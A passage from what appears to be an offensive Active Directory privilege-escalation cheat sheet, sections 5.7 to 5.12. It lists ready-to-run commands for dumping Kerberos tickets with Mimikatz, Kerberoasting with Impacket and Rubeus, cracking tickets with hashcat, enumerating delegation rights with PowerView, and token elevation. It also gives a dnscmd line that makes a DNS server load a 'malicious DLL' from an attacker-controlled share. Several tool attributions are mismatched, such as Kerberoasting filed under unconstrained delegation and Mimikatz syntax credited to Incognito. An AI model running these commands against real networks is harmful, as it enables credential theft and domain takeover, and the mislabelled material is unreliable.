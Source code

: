 
#### 5.7 Abusing Unconstrained Delegation 

- **Mimikatz (Windows)**:
    
    ```powershell
    mimikatz # sekurlsa::tickets
    ```
    
- **Impacket’s GetUserSPNs.py**:
    
    ```bash
    GetUserSPNs.py <domain>/<username>:<password> -dc-ip <target_ip> -request
    ```
    

#### 5.8 Abusing TrustedForDelegation Privilege 

- **PowerView**:
    
    ```powershell
    Get-DomainUser -TrustedToAuth
    Get-DomainComputer -TrustedToAuth
    ```
    

#### 5.9 Token Impersonation (Windows) 

- **Incognito (Windows)**:
    
    ```powershell
    token::elevate
    ```
    

#### 5.10 Abusing Service Accounts 

- **Kerberoasting with Rubeus**:
    
    ```powershell
    Rubeus.exe kerberoast
    ```
    
    Crack the ticket with Hashcat:
    
    ```bash
    hashcat -m 13100 <ticket_hash> /path/to/wordlist.txt
    ```
    

#### 5.11 Abusing DNSAdmins 

- **Abuse DNSAdmin Privilege**: Load malicious DLL via DNSAdmins privilege.
    
    ```powershell
    dnscmd <target_ip> /config /serverlevelplugindll \\<attacker_ip>\share\dll
    ```
    

#### 5.12 Abusing Passwords in SYSVOL 
